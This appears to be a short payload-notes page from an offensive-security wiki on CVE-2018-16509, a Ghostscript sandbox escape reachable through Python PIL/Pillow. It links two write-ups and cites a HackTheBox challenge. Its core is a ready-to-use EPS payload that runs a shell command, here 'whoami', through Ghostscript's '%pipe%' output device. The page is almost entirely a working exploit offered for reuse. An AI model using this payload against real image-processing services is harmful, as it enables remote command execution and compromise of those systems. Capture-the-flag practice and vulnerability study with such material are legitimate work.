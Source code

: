 ```yaml
---
title: CVE-2018-16509 Python PIL/Pillow
sidebar: mydoc_sidebar
permalink: cve-2018-16509.html
folder: Payloads
---
```


Need to read:
- <https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509/>
- <https://shakuganz.com/2021/06/11/hackthebox-petpet-rcbee-write-up/>

Example: HTB - petpet rcbee

Payload

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%whoami) currentdevice putdeviceprops
```
